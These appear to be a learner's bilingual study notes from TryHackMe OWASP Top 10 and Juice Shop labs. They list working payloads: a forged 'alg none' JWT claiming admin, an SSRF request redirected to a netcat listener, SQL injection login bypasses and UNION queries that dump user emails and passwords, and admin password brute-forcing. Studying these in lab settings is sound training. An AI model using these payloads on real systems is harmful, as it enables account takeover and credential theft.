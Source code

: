 			--> cal Hash value
				-->  https://www.srihash.org/
				--> <script src="https://code.jquery.com/jquery-1.12.4.min.js" integrity="sha256-ZosEbRLbNQzLpnKIkEdrPv7lOy9C27hHQ+Xp8a4MxAQ=" crossorigin="anonymous"></script>
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
		--> 資料完整性故障
			--> 會話令牌 -- Cookie
			--> JSON Web Tokens (JWT) <-- Base64
				--> Header | Payload | signature 
			--> change Header : alg : "none"
			--> delete signature 但保留末尾的點 (.)
			
			--> {"typ":"JWT","alg":"none"} {"username":"admin","exp":1718450906}
			--> eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzE4NDUwOTA2fQ.
	
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> Security Logging & Monitoring Failures
		-->  安全日誌​​記錄和監控故障
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> Server-Side Request Forgery (SSRF)
		--> 10.10.225.128:8087/download?server=secure-file-storage.com
			=> http://10.10.225.128:8087/download?server=10.11.92.230:8087&id=75482342
			=> nc -lvnp 8087
## OWASP Juice Shop
	--> https://tryhackme.com/r/room/owaspjuiceshop
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> Injection
		--> SOLi : 
			--> login 
				=> email : ' or 1=1 --
				=> email : ' or 1=1 and email not like('%admin%');--
				=> email : bender@juice-sh.op'-- 
				=> email : ' or 1=1 and email like('%bender%');--
				
			-->  database : 
				=> 搜尋欄 : union select 1,email,password,4,5,6,7 from users;--
				=> 網址 : http://ip:port/rest/product/search?q=a')%20union%20select%20email,%20password,%203,%204,%205,%206,%207%20from%20users;--
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> Broken Authentication
		-->  Bruteforce 
			=> admin@juice-sh.op
			=> password : §§ 
			=> /usr/share/dirb/wordlists/others/best1050.txt
			=> cp /usr/share/dirb/wordlists/others/best1050.txt best1050.txt
		--> 重置密碼機制 
			=> 忘記密碼 : brother name -- Samuel
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> Sensitive Data Exposure
		--> About us :使用條款
			=> http://10.10.118.205 /ftp/legal.md
			=> 下載 Acquisitions.md
			